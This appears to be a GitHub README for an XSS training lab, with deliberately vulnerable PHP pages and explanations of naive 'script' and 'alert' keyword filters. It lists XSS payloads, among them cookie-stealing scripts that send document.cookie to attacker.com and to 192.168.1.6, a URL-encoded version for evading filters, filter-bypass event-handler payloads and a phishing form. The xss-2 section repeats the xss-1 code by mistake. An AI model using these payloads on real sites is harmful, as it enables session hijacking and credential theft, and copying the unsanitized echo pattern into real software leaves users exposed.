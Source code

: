 

# XSS-Vulnerable-Code-Analysis

## Cross-Site Scripting(XSS) Code Analysis and XSS Issue

---

### **Vulnerable Example: xss-1.php**

- vim xss-1.php

      <?php
       session_start();
         setcookie('admin', 'admin', time() + (60 * 60 * 24 * 7));
         $_SESSION['admin'] = 'admin';
          ?>
                                        
         <!DOCTYPE html>
         <html lang="en">
         <head>
         <meta charset="utf-8">
         <meta name="viewport" content="width=device-width, initial-scale=1" />
        <title>XSS Vulnerability Lab</title>
        </head>
        <body>
                                        
         <h1>Welcome To Armour Infosec</h1>

            <?php
          // Vulnerable: directly echoing user input without sanitization, intentional for lab purposes
          if (isset($_REQUEST['user'])) {
             echo $_REQUEST['user'] . "!!";
          }
          ?>
                                        
         <p>Try injecting JavaScript or HTML code into the 'user' parameter in the URL to test reflected XSS:</p>
          <pre>?user=&lt;script&gt;alert('XSS')&lt;/script&gt;</pre>
                                        
          </body>
         </html>

  The vulnerable code is using $_REQUEST, which combines GET, POST, and COOKIE variables, expanding the attack surface.

### Risks for Users

- Script Execution: Any visitor who clicks a crafted link or submits a manipulated form could have arbitrary JavaScript executed in their browser in the context of the vulnerable site.

- Cookie Theft: Attackers could use scripts to steal session cookies, hijack logins, or impersonate users.

- Session Security: The presence of admin cookies and session variables further increases attack value—they could be targeted for theft or manipulation.

### Common XSS Exploits (for Lab Purposes)

- Simple script execution:

      <script>alert('XSS')</script>

- Event handler injection:

      <img src=x onerror=alert('XSS')>

- Malicious payloads targeting cookies:

      <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

- HTML injection for phishing:

      <form action="https://malicious-site.com">Enter Password: <input type=password></form>

### Why Leave It Vulnerable?

For XSS labs and training, seeing raw, unsanitized output is essential for demonstrating the impact and exploitability of these attacks. It provides hands-on experience for attacking and later learning to defend real web applications.

Note:

Never deploy this or similar code in any environment that is accessible outside a controlled, ethical testing lab.

## Common XSS Exploits (for Lab Purposes)

### 1. Basic Alert Payloads

          <script>alert(123);</script>
          <script>alert("Armour");</script>
          <script>alert(document.domain);</script>
          <script>alert(document.cookie);</script>

- These are simple JavaScript alert popups enclosed in <script> tags.

- They are commonly used to test if XSS vulnerabilities exist by triggering a popup box.

Details:


- alert(123); — Displays a numeric popup alert.

- alert("Armour"); — Displays a popup with the text "Armour".

- alert(document.domain); — Shows the domain of the current document (used to confirm the site context).

- alert(document.cookie); — Displays the user's cookies stored for the site, indicating successful access to sensitive info.

### 2. Cookie Theft via Image Request

    <script>var i=new Image; i.src="http://192.168.1.6/?"+document.cookie;</script>


### 3. URL-Encoded Versions of the Above Payloads

%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F192.168.1.6%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E


- These are the URL-encoded versions of the image-based cookie theft payload.

- URL encoding is used to safely transmit special characters in URLs without breaking web requests or filters.

- When decoded, they become the same JavaScript payload as before.

- Attackers use URL-encoding to bypass input filters or WAFs that don't decode inputs before inspection.


## Summary

| Payload Type                                                | Purpose                                 | Explanation                                            |
|-------------------------------------------------------------|-----------------------------------------|--------------------------------------------------------|
| `<script>alert(...);</script>`                              | Proof of XSS vulnerability              | Shows popup alert to confirm vulnerability             |
| `<script>alert(document.cookie);</script>`                  | Test access to victim’s cookies         | Indicates potential for cookie theft                   |
| `<script>var i=new Image; i.src="..."+document.cookie;</script>` | Steal cookies via HTTP request          | Sends victim’s cookie to attacker's server             |
| `%3Cscript%3E...%3C%2Fscript%3E`                            | Encoded payload for bypassing input restrictions | Encodes special characters for evading filters |

---

### Importance for Security Testing and Labs

- These payloads are typical first steps in security assessments and penetration testing to confirm an XSS flaw.
- The cookie theft payload is a real-world attack vector that hackers use to hijack sessions.
- URL-encoded variants highlight the importance of comprehensive input decoding and normalization before filtering.

> **Always use such payloads responsibly within authorized testing environments or labs, never on unauthorized systems.**

---

### Why Leave It Vulnerable?

- For XSS labs and training, seeing raw, unsanitized output is essential for demonstrating the impact and exploitability of these attacks.
- It provides hands-on experience for attacking and later learning to defend real web applications.

> **Note:** Never deploy this or similar code in any environment that is accessible outside a controlled, ethical testing lab.

---



## **Vulnerable Example:** `xss-2.php`

      
      XSS-Vulnerable-Code-Analysis
      
      Cross-Site Scripting(XSS) Code Analysis and XSS Issue
      
      Vulnerable Example: xss-1.php
      
      vim xss-1.php
      
      <?php
      session_start();
      setcookie('admin', 'admin', time() + (60 * 60 * 24 * 7));
      $_SESSION['admin'] = 'admin';
      ?>
      <!DOCTYPE html>
      <html lang="en">
      <head>
      <meta charset="utf-8" />
      <meta name="viewport" content="width=device-width, initial-scale=1" />
      <title>XSS Vulnerability Lab</title>
      </head>
      <body>
      <h1>Welcome To Armour Infosec</h1>
      <?php
      // Vulnerable: directly echoing user input without sanitization, intentional for lab purposes
      if (isset($_REQUEST['user']))
          echo $_REQUEST['user'] . "!";
      ?>
      <p>Try injecting JavaScript or HTML code into the 'user' parameter in the URL to test reflected XSS:</p>
      <pre>?user=&lt;script&gt;alert('XSS')&lt;/script&gt;</pre>
      </body>
      </html>

# Code Analysis and XSS Issue

The provided PHP code snippet is designed to demonstrate a partially filtered but still vulnerable scenario for learning about Cross-Site Scripting (XSS) attacks in a lab environment.

---

## What the Code Does

            $user = $_REQUEST['user'];
            
            if (preg_match('/script/i', $user)) {
            die("Error");
            } else {
            echo $user . "!";
            }

- It takes user input from any HTTP request parameter named `user`.
- It checks if the string "script" (case-insensitive) appears anywhere in the input.
    - If yes, it terminates execution and returns "Error".
    - If no, it outputs the user input directly without any encoding or further sanitization followed by "!".
- Because `$_REQUEST` includes query parameters, POST data, and cookies, this broadens opportunities for injection vectors.

---

## Why This Code is Still Vulnerable to XSS

1. **Naive Filtering:**  
   The filter only looks for the keyword "script" which attempts to block traditional `<script>` tag payloads. However:
    - Many XSS payloads do not use `<script>` tags.
    - Tags such as `<img>`, `<svg>`, `<iframe>`, or event handlers like `onerror`, `onload`, `onclick` can execute JavaScript without containing "script".
    - Attackers may obfuscate payloads by inserting spaces, using different cases, or splitting the word "script" to circumvent the filter.
2. **No Output Encoding:**  
   Even inputs that do not contain "script" are echoed raw inside the HTML page. This enables injection of arbitrary HTML and JavaScript.

---

## Example Bypasses for the Filter

These payloads do **not** contain the string "script" but can still execute JavaScript:

      <img src="x" onerror="alert('XSS')"> <svg onload=alert('XSS')> <body onload=alert('XSS')> <a href="javascript:alert('XSS')">Click me</a> <form action="javascript:alert('XSS')"> ```

     ## Lab Use Case

This partial filter simulates a realistic but flawed defense seen in some poorly protected web apps.

- It allows learners to practice generating valid XSS payloads that bypass simple keyword blocking, improving understanding of modern XSS attack vectors.
- The direct echoing of unsanitized content shows the importance of context-aware encoding and input validation.

---

## Summary

| Aspect         | Details                                                                       |
|----------------|-------------------------------------------------------------------------------|
| Filter         | Blocks any input containing `"script"` (case-insensitive)                     |
| Vulnerability  | Allows any HTML or JS input without `"script"` in it                          |
| Attack Vectors | Event handlers, other HTML tags, obfuscated inputs                            |
| Risk           | Reflected XSS leading to cookie theft, session hijacking, phishing, etc.      |
| Suitable For   | Teaching bypass techniques to naive filters                                   |

 ## vim xss-5.php

      <?php
      session_start();
      setcookie('admin','admin', time() + (60 * 60 * 24 * 7));
      $_SESSION['admin'] = 'admin';
      ?>
      <!DOCTYPE html>
      <html lang="en">
      <head>
      <meta charset="utf-8" />
      <meta name="viewport" content="width=device-width, initial-scale=1" />
      <title>XSS Lab - Simple Alert Filter</title>
      </head>
      <body>
      <h1>Welcome To Armour Infosec</h1>
      
      <?php
      if (isset($_REQUEST['user'])) {
          $user = $_REQUEST['user'];
          // Naive filter to block explicit unescaped string 'alert' (case-insensitive)
          if (preg_match('/alert/i', $user)) {
              die("Error");
          } else {
              echo $user . "!";
          }
      }
      ?>
      </body>
      </html>
      

